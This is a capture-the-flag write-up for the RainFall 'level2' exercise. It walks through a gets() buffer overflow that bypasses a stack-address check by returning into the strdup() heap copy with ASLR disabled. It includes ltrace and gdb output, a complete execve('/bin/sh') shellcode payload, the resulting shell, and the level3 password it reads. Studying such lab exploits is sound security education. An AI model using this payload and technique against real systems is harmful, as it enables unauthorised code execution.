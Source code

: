 As for the previous level, There is a program that makes a call to gets(), which is vulnerable to buffer overflow attacks. This time though, a check is made to make sure that the return address of the function is not a stack address (using the 0xb0000000 mask). However, there is a call to strdup() which records the user's input on the heap and which we can exploit, since the address space layout randomization ([ASLR](https://www.networkworld.com/article/3331199/what-does-aslr-do-for-linux.html)) is off, meaning the memory addresses associated with running processes are predictable:
```
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
So, we get the address of our input registered on the heap (0x0804a008) using ltrace:
```
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7d4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                    = 0
gets(0xbffff6dc, 0, 0, 0xb7e5ec73, 0x80482b5)                         = 0xbffff6dc
puts("ok")                                                            = 3
strdup("ok")                                                          = 0x0804a008
+++ exited (status 8) +++
```
<br />
Now Using gdb, we find that there are 80 bytes needed to reach the return address:
```
python -c "print 'A' * 80 + 'ABCD'" > /tmp/exploit
```

```
(gdb) r < /tmp/exploit
Starting program: /home/user/level2/level2 < /tmp/exploit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDAAAAAAAAAAAAABCD

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [This one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we need to complete our input with 59 '\x90' bytes (the 'No Operation' instruction), followed by the address of our shellcode on the heap, in the little endian convention:
```
level2@RainFall:~$ python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x90' * 59 + '\x08\xa0\x04\x08'" > /tmp/exploit
```
<br />

We can now run the program with our crafted input:
```
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
1���
    Qh//shh/bin��̀������������������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We can now reach the next level with the command `su level3` and fill in the flag found as a password.